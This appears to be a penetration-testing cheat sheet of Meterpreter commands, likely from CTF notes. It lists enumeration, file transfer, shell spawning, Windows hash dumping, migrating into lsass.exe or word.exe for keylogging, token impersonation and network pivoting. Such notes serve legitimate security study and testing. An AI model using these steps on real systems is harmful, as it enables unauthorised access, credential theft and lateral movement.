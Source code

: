 ```yaml
---
title: METERPRETER
summary: A Metasploit attack payload that provides an interactive shell.
description: A Metasploit attack payload that provides an interactive shell.
---
```


**[https://github.com/rapid7/meterpreter](https://github.com/rapid7/meterpreter)**

## METERPRETER Enumeration


 > 
 > **<font color=red>sysinfo</font>**</br>
 > Info about the system.

 > 
 > **<font color=red>getuid</font>**</br>
 > Get current user.

 > 
 > **<font color=red>getenv</font>**</br>
 > Get one or more environment variable values.

 > 
 > **<font color=red>search -f</font>** flag.txt</br>
 > Search a file on the machine.

## METERPRETER File Upload


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

## METERPRETER Spawn Shell


 > 
 > **<font color=red>shell</font>**</br>
 > Spawn a shell.

 > 
 > **<font color=red>load powershell</font>**</br>
 > **<font color=red>powershell_shell</font>**</br>
 > Spawn Powershell.

## METERPRETER Attacks


 > 
 > **<font color=red>hashdump</font>**</br>
 > Dump hashes from Windows SAM base (for linux use module  linux/gather/hashdump). 

 > 
 > **<font color=red>migrate</font>** 716
 > Migrate to another process. 
 > Ex : Migrate to a word.exe and act like a keylogger.
 > Ex: Migrate to lsass.exe to run hashdump.

## METERPRETER Impersonate

If the current user has **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges enabled, we are able to impersonate another user.

 > 
 > **<font color=red>load incognito</font>**</br>
 > Load icognito module.
 > 
 > **<font color=red>list_tokens -u</font>**</br>
 > List Delegation Tokens available (not sure of the flag maybe `-g`).
 > 
 > **<font color=red>impersonate_token</font> "BUILTIN\\Administrators"**</br>
 > Impersonate token.

To determine rights, Windows uses the Primary Token of the process and not the impersonated token. So we have to migrate to a process with correct permissions. 

The safest to pick is **services.exe**.

 > 
 > **<font color=red>migrate</font> 668**</br>
 > Migrate to process 668.

 > 
 > **<font color=red>rev2self</font>**</br>
 > Revert to previous user.

## METERPRETER Pivoting

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
